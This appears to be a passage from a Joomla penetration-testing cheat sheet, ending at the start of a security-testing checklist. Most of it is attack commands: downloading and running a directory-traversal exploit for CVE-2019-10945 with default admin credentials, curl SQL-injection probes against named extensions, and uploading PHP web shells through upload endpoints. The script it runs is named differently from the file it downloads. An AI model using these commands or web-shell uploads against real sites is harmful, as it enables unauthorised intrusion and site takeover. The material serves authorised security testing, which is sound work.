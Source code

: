 ### Known Vulnerabilities

#### Directory Traversal (CVE-2019-10945)
```bash
# Affects: Joomla 1.5.0 through 3.9.4
# Download exploit
wget https://raw.githubusercontent.com/murataydemir/CVE-2019-10945/master/exploit.py

# Execute directory traversal
python2.7 joomla_dir_trav.py \
  --url "http://target.com/administrator/" \
  --username admin \
  --password admin \
  --dir /

# List web root contents
python2.7 joomla_dir_trav.py \
  --url "http://target.com/administrator/" \
  --username admin \
  --password admin \
  --dir /var/www/html
```

#### SQL Injection in Extensions
```bash
# Common vulnerable components
# com_eshop - Multiple SQLi vulnerabilities
# com_jdownloads - SQL injection
# com_fabrik - Authentication bypass

# Manual testing
curl "http://target.com/index.php?option=com_eshop&view=product&id=1'"
curl "http://target.com/index.php?option=com_jdownloads&view=summary&catid=1'"
```

#### File Upload Vulnerabilities
```bash
# Media manager exploitation (if accessible)
curl -X POST -F "file=@shell.php" \
  http://target.com/administrator/index.php?option=com_media

# Component-specific file uploads
curl -X POST -F "upload=@shell.jpg.php" \
  http://target.com/index.php?option=com_component&task=upload
```

### Joomla Security Testing Checklist

#### Discovery & Version Detection
- [ ] Joomla version identification
- [ ] Component enumeration
- [ ] Module and plugin discovery
- [ ] Template identification
- [ ] Configuration file exposure
- [ ] Installation directory presence

